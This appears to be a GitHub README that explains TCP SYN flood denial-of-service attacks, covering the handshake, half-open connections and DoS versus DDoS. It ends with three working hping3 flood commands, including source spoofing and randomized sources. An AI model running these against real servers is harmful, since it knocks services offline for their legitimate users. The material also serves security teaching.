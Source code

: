 # 🌐 DoS & DDoS - TCP SYN Flood Attack

A TCP SYN Flood is a type of **Denial-of-Service (DoS)** or **Distributed Denial-of-Service (DDoS)** attack where the attacker sends many SYN requests to a target server with the intention of overwhelming the system and exhausting its resources.

---

## 🚨 What is a SYN Flood Attack?

TCP uses a **3-way handshake**:
1. Client sends **SYN**
2. Server replies with **SYN-ACK**
3. Client replies with **ACK**

In a SYN flood:
- The attacker sends multiple **SYN** packets with spoofed or unreachable IP addresses.
- The server waits for the **ACK** that never arrives.
- This leads to a backlog of **half-open connections**, consuming system resources and making the server **unresponsive** to legitimate users.

---

## 💣 DoS vs DDoS

| DoS (Denial of Service)         | DDoS (Distributed Denial of Service)     |
|---------------------------------|-------------------------------------------|
| Single attacker                 | Multiple devices (botnet) attack at once |
| Easier to detect & block        | Harder to block due to scale             |
| Less bandwidth consumption      | High volume, often in the gigabits/sec   |

---

## 🛠️ Example Commands

### 🔹 Using `hping3` (Linux/Kali)

#### ⚠️ Legal Warning
> Only use on authorized systems. Unauthorized use is illegal and unethical.

### 🧪 Basic TCP SYN Flood (DoS)
```bash
hping3 -S -p 80 -c 10000 <target-ip>
```

### 🎯SYN Flood with Spoofed Source

```bash
hping3 -S -p 80 -a 1.2.3.4 -c 10000 <target-ip>
```

### DDoS-Like SYN Flood (Randomized IPs)
```bash
hping3 -S --flood --rand-source -p 80 <target-ip>
```
